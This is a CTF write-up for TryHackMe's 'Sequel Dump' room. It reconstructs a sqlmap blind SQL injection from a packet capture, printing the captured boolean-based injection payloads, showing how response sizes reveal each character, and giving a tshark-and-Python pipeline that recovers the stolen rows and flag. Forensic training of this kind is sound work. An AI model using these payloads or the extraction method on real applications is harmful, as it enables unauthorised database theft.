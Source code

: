 ```yaml
---
title: TryHackMe Sequel Dump Hackfinity Battle Write-Up Walk Through
date: 2025-03-22 06:00:00 +0200
categories: [TryHackMe, CTF,Hackfinity Battle, TryHackMe Write Up]
tags: [tryhackme,ctf, SequelDump, Hackfinity, ctf, sqlmap,wireshark,BlindSql]
description: "In this video, we tackle the 'Sequel Dump' room from the TryHackMe Hackfinity Battle CTF. We'll analyze a PCAP file to uncover a blind SQL injection attack using sqlmap"
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-sequel-dump-room.png
  alt: TryHackMe Sequel Dump Hackfinity Battle
---
```


## Sequel Dump - Recovering STOLEN DATA from Blind SQL Injection

A wave of suspicious web requests has bee detected hammering our database-driven application. Analysts suspect an automated `SQL injection attack` has been launched using `sqlmap`, leading to potential data `exfiltration`. Investigate the provided packet capture (`PCAP`) file to uncover the attackers's actions and determine what was stolen! 

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

### Enumeration Phase

In this video, we tackle the 'Sequel Dump' room from the TryHackMe Hackfinity Battle CTF. We'll analyze a PCAP file to uncover a blind SQL injection attack using sqlmap. First, we'll walk through the manual process of reconstructing the attacker's requests and extracting the stolen data, character by character. Then, we'll show you how to automate this process with a Python script, saving time and effort. Learn how to identify and exploit blind SQL injection vulnerabilities and recover valuable data. Let's get started!"

<img src="tryhackme-sequel-dump-room-wireshark-capture.png"  alt="TryHackMe Sequel Dump Wireshark capture" >

```html
Frame 23252: 449 bytes on wire (3592 bits), 449 bytes captured (3592 bits) on interface eth0, id 0
Ethernet II, Src: VMware_76:32:b1 (00:0c:29:76:32:b1), Dst: VMware_e8:af:99 (00:50:56:e8:af:99)
Internet Protocol Version 4, Src: 172.16.175.128, Dst: 10.10.195.62
Transmission Control Protocol, Src Port: 43124, Dst Port: 80, Seq: 1, Ack: 1, Len: 395
Hypertext Transfer Protocol
    GET /search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100 HTTP/1.1\r\n
        Request Method: GET
        Request URI: /search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
            Request URI Path: /search_app/search.php
            Request URI Query: query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
                Request URI Query Parameter: query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
        Request Version: HTTP/1.1
    Cache-Control: no-cache\r\n
    User-Agent: sqlmap/1.8.11#stable (https://sqlmap.org)\r\n
    Host: 10.10.195.62\r\n
    Accept: */*\r\n
    Accept-Encoding: gzip,deflate\r\n
    Connection: close\r\n
    \r\n
    [Response in frame: 23274]
    [Full request URI […]: http://10.10.195.62/search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2]
```
**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

We can notice a lot of `GET` requests by `sqlmap` to end point `/search_app/search.php`, the URL decoded value is:

```console
query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 2,1),83,1))>100
```

 It’s clear that the attacker is using a `Blind SQL Injection` technique to extract data from the description field in the `profile_db.profiles` table, one character at a time. The attacker is leveraging the HTTP response sizes to determine whether a condition is true or false: a response length of `425 bytes` indicates "true," while a length of `262 bytes` indicates "false." The queries use the `ORD(MID())` function to check the ASCII value of each character in the description field, comparing it against various thresholds to narrow down the exact value.

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**


### Manually Extracting the data

We can manually extract the data by following same login `sqlmap` is  using, here an example, below are the queries `sqlmap` using the get the last character, position 41 in `description` field.

```console
"50964","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>64"
"50990","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>96"
"51022","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>112"
"51043","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>120"
"51056","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>124"
"51068","41","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>126"
"51089","41","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>125"
```
we can follow the steps below to get the correct character:

```console
Position 41:
>64 → 156 bytes (True) → >64
>96 → 156 bytes (True) → >96
>112 → 156 bytes (True) → >112
>120 → 156 bytes (True) → >120 
>124 → 156 bytes (True) → >124
>126 → 41 bytes (False) → <=126
>125 → 41 bytes (False) → <=125
Range: 125 (ASCII }).
```
You can see position 42 is basically the end of the flag `}`

We follow same steps and get the full contents of row 6.

## Automatic Getting the Flag Using Python Script

We can use `python` script to read the extracted queries from `Wireshark`, we can use `Tshark` for this, one command we can use is:

```console
tshark -C tryhackme -r challenge.pcapng -Y "http.request.uri contains "ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT" and http.request.uri contains "description" and http.response.code == 200 " -T fields -e frame.number -e http.content_length -e http.request.uri -E separator=, -E quote=d | python3 -c 'import sys, urllib.parse; [print(urllib.parse.unquote(line), end="") for line in sys.stdin]' > 1.csv
```
We can then run python script to read all the queries targeting description data:

```console
python3 go-clearn-stars.py 
Detected row lengths:

Extracted data:
Row 0: The cryptography expert who deciphers the toughest encryptions, searching for vulnerabilities in Void[1048576]s encoded fortress.
Row 1: The exploit hunter who detects and patches vulnerabilities before they can be weaponized, skilled in penetration testing and reverse engineering.
Row 2: The OSINT (Open-Source Intelligence) specialist who tracks Void[128]s movements through the dark web and gathers intelligence from hidden networks.
Row 3: The network infiltrator who can breach even the most fortified systems, bypassing firewalls and uncovering hidden data.
Row 4: The forensic analyst who reconstructs digital crime scenes, piecing together evidence from fragmented files and corrupted logs.
Row 5: The AI security specialist who builds countermeasures against Void[128]s evolving attack algorithms and neutralizes rogue AI threats.
Row 6: Here's the flag: THM{r3************_dump}
```

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

## Takeaways
This room showcase sqlmap attack using blind sql injection to extract data from vulnerable database.

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/Wjz8igduiDw)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

<img src="tryhackme-sequel-dump-room-youtube-video.png"  alt="TryHackMe Sequel Dump YouTube Video Walk through" >


